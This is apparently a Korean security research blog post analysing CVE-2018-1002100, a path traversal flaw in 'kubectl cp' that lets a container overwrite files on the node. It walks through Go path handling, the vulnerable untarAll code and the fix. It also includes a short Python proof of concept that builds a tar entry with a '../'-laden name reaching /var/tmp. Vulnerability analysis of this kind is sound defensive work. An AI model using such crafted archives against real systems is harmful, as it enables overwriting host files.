 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|취약한 버전|취약점 종류|취약점 설명|
|:---:|:---:|:-------:|
|kubernetes: ~v1.9.5|overwrite arbitrary local files|“kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점|

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다. path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

path.join 함수는 입력된 경로들을 탐색했을 때, 나오는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

# Root Cause 분석

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 진입하는 것이 가능하다!

`kubectl cp mongodb:/something ./123`

prefix: something

destFile: ./123

header.Name: 아카이브에 있는 파일/디렉토리 명

outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 쭉쭉 올라가는 모습이다.

baseName: outFileName의 상위 디렉토리 경로

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 그 속엔 파일 하나가 들어있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

파일명에 주목해 보면, 상위 디렉토리로 거슬러 올라가, 파일을 만들어낸다는 것을 알 수 있다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		baseName := path.Dir(outFileName)
		...
}
```

이전 장에서도 봤듯이, header.Name을 그대로 넣어주기 때문에 이를 destFile과 함께 그대로 path.Join해주게 되면, outFileName이 공격자가 원하는 경로로 만들어진다. "../"이 엄청 많은 이유는 어떤 디렉토리에서 cp를 수행해도 루트 디렉토리로 도착하도록 하기 위함이다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, https://nvd.nist.gov/vuln/detail/CVE-2018-1002100

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, https://hansmi.ch/articles/2018-04-openshift-s2i-security